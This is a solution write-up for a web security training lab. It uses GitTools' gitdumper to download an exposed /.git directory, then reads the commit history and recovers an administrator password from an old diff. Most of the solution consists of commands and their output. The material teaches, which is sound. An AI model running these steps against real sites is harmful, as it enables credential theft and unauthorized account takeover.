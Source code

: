 # Information disclosure in version control history

  

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the `administrator` user then log in and delete the user `carlos`.

  

## Solution

  

We found that `/.git`  directory is accessible over thr browser and can able to browse the files inside those directory 

  

![](../Files/image.png)  

  

With the help of the following tools like [GitTools](https://github.com/internetwache/GitTools "https://github.com/internetwache/GitTools") where we can do deep mining into the `/.git`  directory 

  

```
git clone https://github.com/internetwache/GitTools

Cloning into 'GitTools'...
remote: Enumerating objects: 242, done.
remote: Counting objects: 100% (33/33), done.
remote: Compressing objects: 100% (23/23), done.
remote: Total 242 (delta 9), reused 27 (delta 7), pack-reused 209
Receiving objects: 100% (242/242), 56.46 KiB | 1.34 MiB/s, done.
Resolving deltas: 100% (88/88), done.
```

  

Now using `gitdumper`  we can dump those files 

  

```
./gitdumper.sh https://0af100170449d7ee81f725ea00760019.web-security-academy.net/.git/ ./output

[*] Destination folder does not exist
[+] Creating ./output/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/59/a11a147bc60e9c657255fe255c8dc59a396571
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/69/c1f3419d19725877d2116b27803eeda2f5770d
[+] Downloaded: objects/21/54555944002791a4d27412bf6e9a6f29e942fa
[+] Downloaded: objects/f1/0406cbf20c7394b26ab6527ff3b7847e9fb006
[+] Downloaded: objects/21/d23f13ce6c704b81857379a3e247e3436f4b26
[+] Downloaded: objects/89/44e3b9853691431dc58d5f4978d3940cea4af2
[+] Downloaded: objects/c6/dce6e78af021c0356d07915b04ae09eff9e3f1
```

  

Checking logs using `git log`  command shows there are two logs exists 

  

```sh
commit 59a11a147bc60e9c657255fe255c8dc59a396571 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 69c1f3419d19725877d2116b27803eeda2f5770d
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

  

Our goal is to get the admin password for that reason I’m picking up this commit hash **59a11a147bc60e9c657255fe255c8dc59a396571** and with the following command `git show <commit hash>` 

  

```sh
commit 59a11a147bc60e9c657255fe255c8dc59a396571 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index c6dce6e..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=gsgt65n8qqttokocbunz
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

  

Now with the admin password we have, we will go to our login page with the username as **administrator** and password as **gsgt65n8qqttokocbunz...** Delete the carlos to complete the lab 

  

![](../Files/image%202.png)